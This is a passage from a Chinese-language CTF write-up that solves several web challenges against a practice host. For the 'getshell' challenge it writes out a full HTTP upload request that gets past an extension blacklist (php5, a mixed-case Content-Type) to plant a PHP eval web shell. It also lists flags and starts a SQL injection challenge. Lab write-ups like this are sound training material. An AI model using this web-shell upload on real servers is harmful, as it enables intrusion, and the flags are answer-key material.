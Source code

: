 	解答：

		http://120.24.86.145:8002/web13/robots.txt
		http://120.24.86.145:8002/web13/resusl.php
		http://120.24.86.145:8002/web13/resusl.php?x=admin
		构造x=admin

		flag(ctf_0098_lkji-s)

35. 求getshell 150
	>求getshell
	>http://120.24.86.145:8002/web9/

	解答：

		测试与探测
		upload/20180312120336_541.jpg，上传成功后重命名
		截断上传、解析漏洞等都无法绕过上传
		存在后缀名黑名单、类型检测（http头Content-Type，文件类型Content-Type）
		php别名：php2, php3, php4, php5, phps, pht, phtm, phtml，发现php5可以绕过
		http头的Content-type一下大小写绕过
		文件Content-type：image/jpeg


		POST /web9/index.php HTTP/1.1
		Host: 120.24.86.145:8002
		User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
		Accept-Language: zh-CN,en-US;q=0.5
		Content-Type: Multipart/form-data; boundary=---------------------------2342412517843
		Content-Length: 312
		Referer: http://120.24.86.145:8002/web9/index.php
		Cookie: sYQDUGqqzHsearch_history=%7C1
		Connection: close
		Upgrade-Insecure-Requests: 1
		
		-----------------------------2342412517843
		Content-Disposition: form-data; name="file"; filename="1.php5"
		Content-Type: image/jpeg
		
		<?php eval($_POST['123'])?>
		-----------------------------2342412517843
		Content-Disposition: form-data; name="submit"
		
		Submit
		-----------------------------2342412517843--
	

		KEY{bb35dc123820e}

36. INSERT INTO注入 150
	>地址：http://120.24.86.145:8002/web15/  
	>flag格式：flag{xxxxxxxxxxxx}  
	不如写个Python吧    
	
		error_reporting(0);
		
		function getIp(){
		$ip = '';
		if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		}else{
		$ip = $_SERVER['REMOTE_ADDR'];
		}
		$ip_arr = explode(',', $ip);
		return $ip_arr[0];
		